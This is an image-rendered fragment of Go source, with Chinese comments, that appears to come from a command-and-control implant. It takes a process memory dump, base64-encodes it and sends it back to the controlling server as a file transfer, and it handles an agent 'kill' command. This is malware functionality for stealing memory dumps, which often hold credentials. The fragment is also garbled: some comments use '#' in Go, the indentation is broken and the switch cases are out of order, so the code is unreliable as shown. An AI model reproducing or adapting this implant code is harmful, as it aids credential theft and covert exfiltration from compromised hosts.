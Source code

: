 ```

			// 从upload函数中复制并粘贴代码，并做适当修改
			// 如果miniDumpErr不为空，将错误信息赋值给c.Stderr
			if miniDumpErr != nil {
				c.Stderr = fmt.Sprintf("There was an error executing the miniDump module:\r\n%s",
					miniDumpErr.Error())
			} else {
				// 创建一个新的SHA256哈希对象
				fileHash := sha256.New()
				// 将minidump中的"FileContent"转换为[]byte类型，并计算其SHA256哈希值
				_, errW := io.WriteString(fileHash, string(miniD["FileContent"].([]byte)))
				// 如果计算哈希值时出现错误，根据Verbose标志输出警告信息
				if errW != nil {
					if a.Verbose {
						message("warn", fmt.Sprintf("There was an error generating the SHA256 file hash e:\r\n%s", errW.Error()))
					}
				}

				// 如果Verbose标志为true，输出详细信息
				if a.Verbose {
# 调用 message 函数，输出上传 minidump 文件大小和 SHA1 哈希值到服务器的消息
message("note", fmt.Sprintf("Uploading minidump file of size %d bytes and a SHA1 hash of %x to the server",
    len(miniD["FileContent"].([]byte)),
    fileHash.Sum(nil)))
# 创建文件传输消息对象
fileTransferMessage := messages.FileTransfer{
    FileLocation: fmt.Sprintf("%s.%d.dmp", miniD["ProcName"], miniD["ProcID"]),
    FileBlob:     base64.StdEncoding.EncodeToString(miniD["FileContent"].([]byte)),
    IsDownload:   true,
    Job:          p.Job,
}
# 设置返回消息类型为文件传输
returnMessage.Type = "FileTransfer"
# 设置返回消息的载荷为文件传输消息对象
returnMessage.Payload = fileTransferMessage
# 返回消息和空错误
return returnMessage, nil
# 处理默认情况
default:
    # 设置错误输出为不是有效的模块类型
    c.Stderr = fmt.Sprintf("%s is not a valid module type", p.Command)
# 处理代理控制情况
case "AgentControl":
    # 如果是详细模式
    if a.Verbose {
		// 打印日志，表示接收到代理控制消息
		message("note", "Received Agent Control Message")
	}
	// 将消息的载荷转换为代理控制消息结构
	p := m.Payload.(messages.AgentControl)
	// 将作业设置为消息中的作业
	c.Job = p.Job
	// 根据消息中的命令进行不同的操作
	switch p.Command {
	case "kill":
		// 如果设置了详细模式，打印日志表示接收到代理终止消息
		if a.Verbose {
			message("note", "Received Agent Kill Message")
		}
		// 退出程序
		os.Exit(0)
```